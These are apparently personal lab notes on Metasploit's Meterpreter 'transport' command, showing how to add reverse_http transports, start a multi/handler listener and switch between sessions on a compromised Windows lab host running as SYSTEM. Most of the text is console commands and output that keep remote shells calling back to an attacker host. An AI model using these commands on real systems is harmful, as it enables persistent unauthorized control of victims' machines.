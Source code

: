 ## Pre-requisite --> [[]]
- The `transport` command allows you to add a new transport to your current sessions with `reverse_tcp` and `reverse_https` as the top favorites.
- Meterpreter offers you some other transports for you to choose from.

## Displaying the help for the command:
```python
meterpreter > transport -h
Usage: transport <list|change|add|next|prev|remove> [options]

   list: list the currently active transports.
    -----------------------------SNIP-----------------------------------
```

## Displaying current active transports:
```python
meterpreter > transport list
Session Expiry  : @ 2023-03-24 15:54:08

    ID  Curr  URL                       Comms T/O  Retry Total  Retry Wait
    --  ----  ---                       ---------  -----------  ----------
    1   *     tcp://192.168.216.9:4444  300        3600         10
```

## Adding new transports:
```python
meterpreter > transport add -t reverse_http -l 192.168.1.8 -p 8080
[*] Adding new transport ...
[+] Successfully added reverse_http transport.
```
- Adding new transports allows Metasploit to keep the sessions alive for longer.
- `-t` option to specify the type of transport to add. The available types are `bind_tcp`, `reverse_tcp`, `reverse_http`, and `reverse_https`.
- `-l` option is used to set the LHOST.
- `-p` option is used to set the LPORT.

## Listing the available transports after adding it:
![[transport_list.png]]
## Changing the transport
```python
meterpreter > background
[*] Backgrounding session 10...
msf6 exploit(windows/smb/psexec) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_http
PAYLOAD => windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > set LHOST 192.168.216.9
LHOST => 192.168.216.9
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 3.
[*] Exploit completed, but no session was created.

[*] Started HTTP reverse handler on http://192.168.216.9:8080
meterpreter > sessions
Active sessions
===============

  Id  Name  Type                     Information                           Connection
  --  ----  ----                     -----------                           ----------
  10        meterpreter x86/windows  NT AUTHORITY\SYSTEM @ VAGRANT-2008R2  192.168.216.9:4444 -> 192.168.216.11:49575 (192.168.216.11)
  11        meterpreter x86/windows                                        192.168.216.9:8080 -> 192.168.216.11:49678 (192.168.216.11)

msf6 exploit(multi/handler) > sessions -i 11
[*] Starting interaction with 11...

meterpreter > transport next[*] Meterpreter session 11 opened (192.168.216.9:8080 -> 192.168.216.11:49678) at 2023-03-17 16:22:09 +0530

[*] Changing to next transport ...
[+] Successfully changed to the next transport, killing current session.

[*] 192.168.216.11 - Meterpreter session 11 closed.  Reason: User exit
msf6 exploit(multi/handler) > [*] 192.168.216.11 - Meterpreter session 11 closed.  Reason: Died
msf6 exploit(multi/handler) > sessions -i 10
[*] Starting interaction with 10...

meterpreter > transport list
Session Expiry  : @ 2023-03-24 16:17:23

    ID  Curr  URL                       Comms T/O  Retry Total  Retry Wait
    --  ----  ---                       ---------  -----------  ----------
    1   *     tcp://192.168.216.9:4444  300        3600         10
    2         tcp://192.168.216.9:8080  300        3600         10
```
- As you can see from the output, we have successfully changed to the next transport on the list using the `transport next` command. 
- To change to the previous transport, simply use the `transport prev` command.

# The transport command sometimes not working perfectly it lost almost of my 2-3 days.